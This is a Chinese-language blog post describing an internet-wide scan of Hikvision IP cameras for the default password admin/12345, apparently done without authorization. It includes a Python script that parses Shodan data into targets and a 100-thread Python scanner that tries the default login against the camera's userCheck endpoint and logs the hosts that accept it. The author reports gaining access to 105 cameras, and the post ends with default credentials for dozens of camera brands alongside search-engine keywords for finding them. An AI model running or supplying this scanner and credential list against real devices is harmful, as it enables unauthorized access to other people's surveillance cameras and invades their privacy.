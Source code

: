 ```yaml
---
title: 针对海康威视网络摄像头弱密码的一次扫描
date: 2019-11-28 20:15:06
tags:
  - Scan
  - web-security
categories:
  - coding
---
```


## 前言

在我上高二的时候，海康威视摄像头被爆出大量公开web访问具有弱密码，那时手动对学校内部的摄像头进行fuzz，成功进入了几个摄像头控制web，能够随意查看学校的监控。

海康威视web界面的弱密码是 admin  12345

时隔四年，想要再次对网络上能够访问到的海康威视web管理进行一次批量弱密码扫描

## 从shodan获取数据

首先需要搞到全网所有能够访问到的海康威视机器的IP，这是个工作量极大的任务，如果自己进行全网服务扫描的话无论是时间周期还是耗费资金都是我无法承受的

之前了解过shodan，shodan被称为“最恐怖的搜索引擎”，能够提供多年来其扫描到的全网提供的服务，可惜数据的价格极高

今年黑五是shodan诞生第十年，shodan给出极大的优惠，正式会员+20credit只需要1刀，手头有信用卡和企业邮箱的我二话不说先上了20个账号

有了shodan的credit就可以购买它的数据了。海康威视的web管理界面的关键词很简单，只需要在shodan搜索“hikvision”

![最新的搜索结果](shodan1.png)

在我写这篇博客的时候搜索到的数据有18万条，前段时间我下载数据的时候是19万条。

下载大量数据是需要花credit的，1credit可以下载1万条数据，所以19万多的数据花费了我20credit，正常情况下20credit是49刀，这次黑五真是太实惠了

## 提取有用信息

有了数据之后通过python解析，检查是否存在http服务，如果存在就提取ip和port

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

import json

fi = open("shodan_data.json")
fo = open("ip.txt", 'w')

line = fi.readline()
numall = 1
num = 0

while line:
    line = fi.readline()
    numall = numall+1
    try:
        a = json.loads(line)
        if 'http' in a:
            num = num+1
            txt = a['http']['host']+':'+str(a['port'])+'\n'
            fo.write(txt)
            print(txt)
    except Exception as e:
        continue

fo.close()
fi.close()

print(numall)
print(num)
```

## 分析与扫描

然后通过多线程python脚本进行弱密码批量扫描。

通过手工尝试找到一台可以弱密码登录进去的机器，通过burp抓包分析，找到用来验证弱密码的接口。

![登录使用的接口和验证方式](baseauth.png)

分析发现登录使用的是base auth，这就简单了。使用的接口是userCheck，如果登录成功应该返回200.

![登录成功](authsuccess.png)

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
#批量筛选海康威视摄像头的弱密码
import threading
import requests
import queue
import sys
import re

def Threads():
    threadlist=[]
    myqueue=queue.Queue()
    for ip in open('ip.txt','r'): #扫描出的ip
        myqueue.put(ip.replace('\n',''))
    for x in range(0,100):  #线程数
        th=threading.Thread(target=scan_Hikvision,args=(myqueue,))
        threadlist.append(th)
    for t in threadlist:
        t.start()
    for t in threadlist:
        t.join()

def scan_Hikvision(myqueue):
    while not myqueue.empty():
        ip=myqueue.get()
        try:
            print("[*]scan:"+ip)
            r = requests.get(url=("http://%s/PSIA/Custom/HIK/userCheck" % ip),auth=('admin','12345'),timeout=10)
            status = re.findall(r'<statusValue>(.*)</statusValue>', r.text)
            if status[0] == '200':
                print('[√] Host http://'+ ip +' Login Success!\n')
                f = open('ok.txt', 'a+')
                f.write(ip+"\n")
                f.close()
                break
        except:
            continue

if __name__=='__main__':
    Threads()
```

正好有个美国的vps，就扔到这个服务器上进行扫描，本机也开起来扫

100线程很快就扫描完毕了，国内外扫描完的结果去重后一共留下105个可登录弱密码。感觉不应该只有这么点，登录后查看只发现一个版本的海康威视，可能是检测弱密码的接口在其他版本中不存在，或者其他版本默认密码更换或者其他原因

## 后话

海康威视应该是采取了手段来避免弱密码的再次产生，但是之前老版本的DVR还有一部分并没有进行更新，大部分是农村的家庭或工厂监控，大家也都不太懂，并没有修改默认密码

心里不是滋味，身边也有一些父母的朋友他们让我帮忙安装一些路由器、监控等设备，他们的文化水平不高，当我要给他们修改密码的时候，一部分会选择手机号码，也有一部分让我不要修改密码，说改了别记不住，直接出厂密码就行了，忘了可以看一下说明书

能不能想出一种办法，既考虑到安全性，又能顾虑到这部分人的需求，这是个问题

## 弱密码收集

```
1.海康威视IP网络摄像机：
用户：admin，密码：12345
zoomeye搜索关键词：hikvision
2.大华网络摄像机：
user:admin pass:admin 管理权限
user:default pass:user 用户默认登陆帐号
user:888888 pass:admin
user:666666 pass:user
zoomeye搜索关键词：WEB SERVICE
3.cctv摄像机：
user：admin pass：空
telnet登陆 user：root pass：”juantech”
zoomeye搜索关键词：JAWS/1.0
4.SQ-WEBCAM摄像机：
user：admin pass：admin
zoomeye搜索关键词：SQ-WEBCAM
ACTi: admin/123456 or Admin/123456
American Dynamics: admin/admin or admin/9999
Arecont Vision: none
Avigilon: admin/admin
Axis: traditionally root/pass, new Axis cameras require password creation during first login
Basler: admin/admin
Bosch: none
Brickcom: admin/admin
Canon: root/camera
Cisco: No default password, requires creation during first login
Dahua: admin/admin
Digital Watchdog: admin/admin
DRS: admin/1234
DVTel: Admin/1234
DynaColor: Admin/1234
FLIR: admin/fliradmin
Foscam: admin/
GeoVision: admin/admin
Grandstream: admin/admin
Hikvision: admin/12345
Honeywell: admin/1234
IQinVision: root/system
IPX-DDK: root/admin or root/Admin\
JVC: admin/jvc
March: Networks: admin/
Mobotix: admin/meinsm
Panasonic: admin/12345
Pelco Sarix: admin/admin
Pixord: admin/admin
Samsung Electronics: root/root or admin/4321
Samsung Techwin (old): admin/1111111
Samsung (new): admin/4321
Sanyo: admin/admin
Scallop: admin/password
Sentry360 (mini): admin/1234
Sentry360 (pro): none
Sony: admin/admin
Speco: admin/1234
Stardot: admin/admin
Starvedia: admin/
Trendnet: admin/admin
Toshiba: root/ikwd
VideoIQ: supervisor/supervisor
Vivotek: root/
Ubiquiti: ubnt/ubnt
Wodsee: admin/
```
